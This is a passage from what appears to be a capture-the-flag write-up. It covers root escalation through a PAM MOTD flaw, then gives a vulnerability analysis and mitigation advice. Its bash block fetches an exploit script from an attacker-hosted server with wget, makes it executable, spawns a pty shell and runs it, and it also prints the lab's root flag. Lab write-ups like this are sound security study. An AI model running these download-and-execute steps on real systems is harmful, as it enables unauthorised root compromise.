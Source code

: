 
**Exploit Deployment:**
```bash
# Host exploit on attacker machine
python3 -m http.server 8000

# Download and execute on target
wget http://10.10.16.21:8000/14339.sh
chmod +x 14339.sh

# Stabilize shell before execution
python -c "import pty;pty.spawn('/bin/bash')"
./14339.sh
```

<img width="949" height="329" alt="image" src="https://github.com/user-attachments/assets/d6ce9e21-7e73-4473-8b60-fe19e81cc731" />

### Root Access Achieved
Successfully escalated privileges to root using the PAM MOTD vulnerability.

<img width="951" height="394" alt="image" src="https://github.com/user-attachments/assets/0854014a-19ba-4a33-b686-92cc772a8dad" />


**Root Flag Extraction:**

<img width="951" height="152" alt="image" src="https://github.com/user-attachments/assets/742a88bf-ea6b-4a18-8eea-0544bb699371" />


```bash
cat /root/root.txt
5eddd59cc9633927984c39f001331eb2
```

## Vulnerability Analysis

### Critical Security Issues

1. **Insecure File Upload**
   - No proper file type validation
   - Content-Type header manipulation possible
   - Executable files stored in web-accessible directory

2. **Privilege Escalation Vector**
   - Outdated PAM version with known vulnerability
   - Improper MOTD configuration
   - Lack of security patches

3. **Access Control Failures**
   - Weak upload restrictions
   - Insufficient input sanitization

## Mitigation Recommendations

### Immediate Actions
1. **File Upload Security**
   - Implement strict file type verification
   - Use server-side MIME type detection
   - Store uploaded files outside web root
   - Implement antivirus scanning
